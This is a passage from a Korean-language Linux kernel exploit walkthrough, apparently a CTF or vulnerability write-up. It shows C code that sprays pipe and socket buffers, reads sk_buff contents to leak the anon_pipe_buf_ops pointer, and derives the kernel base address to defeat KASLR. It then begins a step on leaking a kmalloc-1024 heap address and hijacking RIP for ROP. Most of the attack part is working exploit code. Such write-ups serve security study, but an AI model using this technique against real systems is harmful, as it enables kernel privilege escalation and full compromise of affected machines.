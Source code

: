 ```c
            exit(0);
        }

        if(write(pipe_fds[i][1], "A", 1) < 0)
        {
            perror("leak_base_addr: failed write pipe buffer\n");
            exit(0);
        }
    }

    printf("leak_base_addr: read sk_buff\n");
    for (i = 0; i < SPRAY_SOCKET_FDCNT; i++)
    {
        for(j = 0; j < SPRAY_COUNT_PER_SOCKET_FD; j++)
        {
            if (read(socket_fd[i][1], read_buffer, 1024 - 0x140) < 0)
            {
                perror("leak_base_addr: sk_buff read failed\n");
                exit(0);
            }
            if (((uint64_t*)read_buffer)[2] != MSG_TYPE_FAKE)
            {
                anon_pipe_buf_ops_addr = ((uint64_t*)read_buffer)[2];
                printf("leak_base_addr: anon_pipe_buf_ops_addr - 0x%llx\n", anon_pipe_buf_ops_addr);
                goto find;
            }
        }
    }
find: 
    if ((anon_pipe_buf_ops_addr & 0xffff000000000000) != 0xffff000000000000)
    {
        printf("leak_base_addr: leak kernel base failed\n");
        exit(0);
    }

    kernel_base_addr = anon_pipe_buf_ops_addr - ANON_PIPE_BUF_OPS_ADDR;
    printf("leak_base_addr: kernel base - %llx\n", kernel_base_addr);
    return kernel_base_addr;
}
```

## **STEP 5. Leak kmalloc-1024 and RIP control**

이제 커널의 base 주소를 릭했으니, RIP 를 컨트롤 하여 ROP를 할 차례다!

일전에 `pipe_buffer` 에서 `anon_pipe_buf_ops` 값을 통해 kernel base를 알 수 있었는데, 이를 통해서 RIP 역시 컨트롤 할 수 있다. 

하지만, 그 전에 우리가 쓸 수 있는 데이터의 영역은 `kmalloc-1024` 이기 때문에 `kmalloc-1024`의 영역을 알아야 한다. 

우리가 릭한 heap 영역의 주소는 `kmalloc-1024` 영역에 할당된 `msg_msg`의 `m_text->prev` 부분이므로 `kmalloc-96` 영역의 주소이다. 
